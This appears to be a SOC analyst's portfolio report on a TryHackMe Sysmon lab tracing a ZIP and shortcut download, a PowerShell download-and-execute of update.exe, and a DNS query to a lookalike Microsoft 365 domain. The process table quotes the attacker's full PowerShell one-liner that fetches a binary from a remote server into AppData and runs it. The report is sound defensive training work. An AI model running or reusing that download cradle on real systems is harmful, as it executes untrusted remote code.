

# Investigation #4 — "Windows Endpoint Investigation"

**Lab Source:** TryHackMe, SOC Level 1: Windows Security Monitoring, Windows Threat Detection 3 (Task 2: Command and Control)

**Data Source:** Sysmon event logs 

**Analyst:** Christopher McClister 

**Report Date:** 11/24/2026 

**Classification:** Malicious (lab scenario) 

---

## Alert

**Alert Name:** Suspicious PowerShell Download and Execution of Unsigned Executable 

**Severity:** High 

**Summary:** A ZIP archive (`URGENT!.zip`) was downloaded from an internal web server at `http://10.14.97.[REDACTED]`. Shortly after extraction, PowerShell retrieved `update.exe` from the same server, saved it to `%APPDATA%`, and executed it. The executable then made a DNS query to a suspicious domain that imitates Microsoft 365.

**Detection Logic (Sysmon):**
- Event ID 1 (Process Create): PowerShell with `iex`, `Invoke-WebRequest`, and `Start-Process` in the command line
- Event ID 1 (Process Create): Execution of an executable from `AppData\Roaming`
- Event ID 11 (File Create): Executable written to `AppData\Roaming`
- Event ID 22 (DNS Query): Query to a non-Microsoft domain from an unknown binary

---

## Host

| Field | Value |
|---|---|
| Hostname | `THM-DFIR-VM-3` |
| FQDN | `THM-DFIR-VM-3.eu-west-1.compute.internal` |
| Source IP | `10.10.248.[REDACTED]` |
| OS | Windows (version not provided in logs) |
| Role | Endpoint (workstation/VM) |

---

## User

| Field | Value |
|---|---|
| Account in Network and DNS events | `THM-DFIR-VM-3\Administrator` |
| Profile Path | `C:\Users\Administrator` |

---

## Timeline

| Timestamp (7/2/2025) | Event | Sysmon Event ID | Details |
|---|---|---|---|
| 8:13:38 PM | Process Create | 1 | Google Chrome launched (normal user activity; baseline) |
| 8:13:50 PM | File Created | 11 | `Downloads\3687b063-...tmp` created, a temporary download file by Chrome |
| 8:13:55 PM | File Stream Created | 15 | Temporary file contents with unreadable characters; hashes generated |
| 8:13:55 PM | File Created | 11 | `Downloads\URGENT!.zip:Zone.Identifier` created |
| 8:13:55 PM | File Stream Created | 15 | `URGENT!.zip` written; Zone.Identifier shows ZoneId=3 (Internet) |
| 8:13:55 PM | File Stream Created | 15 | Zone.Identifier records `ReferrerUrl=http://10.14.97.[REDACTED]` and `HostUrl=http://10.14.97.[REDACTED]/URGENT%21.zip` |
| 8:13:58 PM | Process Create | 1 | `MicrosoftEdgeUpdate.exe /ua /installsource scheduler` (Microsoft update process; likely benign) |
| 8:14:07 PM | File Created | 11 | `Downloads\URGENT!` folder created (ZIP extracted) |
| 8:14:07 PM | File Created | 11 | `Downloads\URGENT!\URGENT!.lnk` shortcut created |
| 8:14:07 PM | File Stream Created | 15 | Shortcut Zone.Identifier records `ReferrerUrl=C:\Users\Administrator\Downloads\URGENT!.zip` |
| 8:14:12 PM | Process Create | 1 | PowerShell executes: download `update.exe` from `http://10.14.97.[REDACTED]/update.exe` to `%APPDATA%` and run it |
| 8:14:13 PM | File Created | 11 | PowerShell script policy test file created (normal PowerShell behavior, though it confirms script execution) |
| 8:14:13 PM | File Created | 11 | `AppData\Roaming\update.exe` written (Portable Executable) |
| 8:14:14 PM | Network Connection | 3 | Outbound TCP from `10.10.248.[REDACTED]:49739` to `10.14.97.[REDACTED]:80` (payload download) |
| 8:14:28 PM | Process Create | 1 | `C:\Users\Administrator\AppData\Roaming\update.exe` launched by PowerShell |
| 8:14:30 PM | DNS Query | 22 | `route.m365officesync.workers.dev` queried by `update.exe` |

---

## Processes

| Process | PID | Parent | Command Line | Assessment |
|---|---|---|---|---|
| chrome.exe | 2488 | 3604 | Standard launch | Benign (initiated the download) |
| MicrosoftEdgeUpdate.exe | 228 | 1476 | `/ua /installsource scheduler` | Benign (standard Edge update) |
| powershell.exe | 3140 | 3604 | `-Command "iex '$u=\"http://10.14.97.[REDACTED]/update.exe\";$p=\"$env:APPDATA/update.exe\";Invoke-WebRequest $u -OutFile $p;Start-Process $p'"` | **Malicious.** Downloads and executes a remote binary. Uses `iex`, a common obfuscation and execution technique. |
| update.exe | 4340 | 3140 | `C:\Users\Administrator\AppData\Roaming\update.exe` | **Malicious.** Unsigned payload in a user-writable path with a generic name; contacts a suspicious domain. |

**Analyst Note:** The PowerShell command is not obfuscated, but the `iex` (Invoke-Expression) wrapper is unnecessary for a simple download and is a common pattern in malicious scripts. The `$p` variable also places the file in `%APPDATA%`, which is a common persistence and staging location.

---

## Authentication

- **Authentication events were not included in the provided data.** No logon events (Event ID 4624, 4625, 4672) were available to confirm how the session was started or whether any privilege escalation occurred.
- **Session Context:** The process ran under `THM-DFIR-VM-3\Administrator`, which has local administrator rights. Running downloaded content in an administrator session increases the risk.

**Recommended Next Steps:** Query the Security log for logons to `THM-DFIR-VM-3` between 8:00 PM and 8:30 PM on 7/2/2025, and check for Event ID 4672 (special privileges assigned) and 4688 (process creation with token information).

---

## Network Connections

| Direction | Source | Destination | Port | Protocol | Notes |
|---|---|---|---|---|---|
| Outbound | `10.10.248.[REDACTED]:49739` | `10.14.97.[REDACTED]:80` | 80 | TCP (HTTP) | Source of `URGENT!.zip` and `update.exe`. The host is internal, but the server is not a known legitimate download source. |
| Outbound | `update.exe` | `route.m365officesync.workers.dev` | 53 | DNS | Suspicious domain. It mimics Microsoft 365 branding and is hosted on Cloudflare Workers, which attackers commonly use for C2 infrastructure. |

**Analyst Note:** The download server is an internal private IP (`10.14.97.[REDACTED]`), so the file may have been staged internally or by a compromised internal host. Investigate that server's logs as well.

---

## Suspicious Behavior

1. **Download of an archive from a non-standard source.** `URGENT!.zip` was downloaded with a referrer of `http://10.14.97.[REDACTED]`. The filename uses social engineering language ("URGENT!") to pressure the user into opening it.
2. **Archive extraction followed by a shortcut file.** The ZIP was extracted into a folder with the same name as the archive, and a `.lnk` shortcut was created inside it. Malicious shortcuts are a common initial access method.
3. **PowerShell download-and-execute.** The command downloaded a binary, saved it to `AppData\Roaming`, and executed it. The use of `iex`, `Invoke-WebRequest`, and `Start-Process` in one line is a strong indicator of malicious intent.
4. **Execution of an unsigned binary from a user-writable directory.** `update.exe` ran from `%APPDATA%`, a location legitimate software rarely uses for its main executable.
5. **Masquerading as a legitimate update.** The name `update.exe` is generic and resembles normal update behavior, which may help it avoid notice.
6. **Suspicious DNS query.** `update.exe` queried `route.m365officesync.workers.dev`, which impersonates Microsoft 365 but is not a Microsoft domain. Legitimate Microsoft services use `*.microsoft.com`, `*.office.com`, or `*.office365.com`.

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|---|---|---|---|
| Initial Access | Phishing: Spearphishing Attachment or Link | **T1566.001** / **T1566.002** (*possible*) | Possible delivery method for `URGENT!.zip` (delivery vector not confirmed in logs) |
| Execution | User Execution: Malicious File | **T1204.002** (*possible*) | The archive, extracted directory, and shortcut could be part of a user-execution chain, but the supplied telemetry does not prove that a user opened the archive or shortcut |
| Execution | Command and Scripting Interpreter: PowerShell | **T1059.001** | `powershell.exe` with `iex` and `Invoke-WebRequest` |
| Stealth | Masquerading: Match Legitimate Name or Location | **T1036.005** | `update.exe` in `AppData\Roaming` with a generic name |
| Command and Control | Ingress Tool Transfer | **T1105** | `update.exe` downloaded from `10.14.97.[REDACTED]` |
| Command and Control | Application Layer Protocol: Web Protocols | **T1071.001** | HTTP on port 80 used for payload delivery |
| Command and Control | Application Layer Protocol: DNS | **T1071.004** | Query to `route.m365officesync.workers.dev` from the payload |

---

## Investigation Conclusions

**Verdict:** Malicious. The endpoint was compromised by a multi-stage downloader.

**Summary of Attack Chain:**
1. The user downloaded `URGENT!.zip` from `http://10.14.97.[REDACTED]` using Chrome.
2. The user extracted the archive, producing a `.lnk` shortcut.
3. The shortcut or a user action triggered PowerShell.
4. PowerShell downloaded `update.exe` to `%APPDATA%` and ran it.
5. `update.exe` contacted `route.m365officesync.workers.dev`, which indicates possible command-and-control activity.

**Confidence:** High for the download and execution chain. Medium for the C2 role of the DNS domain, because the logs show only one query and no follow-up traffic.

**Open Questions:**
- Did `update.exe` create persistence (Run keys, scheduled tasks, services)?
- Did other hosts download `URGENT!.zip` from `10.14.97.[REDACTED]`?
- Does the `10.14.97.[REDACTED]` server host other suspicious files?

---

## Recommended Response

### Immediate Containment
- Isolate `THM-DFIR-VM-3` from the network to prevent further C2 communication.
- Terminate `update.exe` and preserve it for analysis.
- Block `route.m365officesync.workers.dev` at DNS and proxy level.
- Block outbound traffic to `10.14.97.[REDACTED]` from endpoints except where it is required.

### Evidence Preservation
- Collect a memory image before rebooting if possible.
- Export the Sysmon log, Security log, and PowerShell operational log (Event ID 4104 for script block logging).
- Hash `update.exe`, `URGENT!.zip`, and `URGENT!.lnk` (MD5, SHA256) and check them on VirusTotal.

### Eradication and Recovery
- Remove `update.exe`, `URGENT!.zip`, and the `URGENT!` folder from the host.
- Check Run and RunOnce registry keys, scheduled tasks, and services for persistence.
- Reimage the endpoint if persistence or lateral movement is confirmed.
- Reset the Administrator password and review its use across other systems.

### Scope and Hunting
- Search all endpoints for the file hashes, filename `update.exe` in `AppData\Roaming`, and DNS queries to the suspicious domain.
- Review logs on `10.14.97.[REDACTED]` for other downloads or suspicious requests.
- Check whether other users downloaded `URGENT!.zip`.

### Preventive Measures
- Restrict Administrator account use for daily browsing and downloads.
- Enable PowerShell script block logging and constrained language mode where practical.
- Block execution of unsigned binaries from `AppData` using AppLocker or Windows Defender Application Control.
- Configure web and DNS filtering to block newly registered and unknown domains.
- Add user awareness training on urgent-themed files and shortcut (`.lnk`) files.

---

## Skills Demonstrated
- Sysmon log analysis (Event IDs 1, 3, 11, 15, 22)
- Process tree and command line analysis
- Identification of Zone.Identifier (Mark of the Web) artifacts
- MITRE ATT&CK technique mapping
- Incident response planning (containment, eradication, recovery)

## Portfolio note

This report is based on a simulated training-lab timeline.

## Screenshots

**Sysmon Log**:

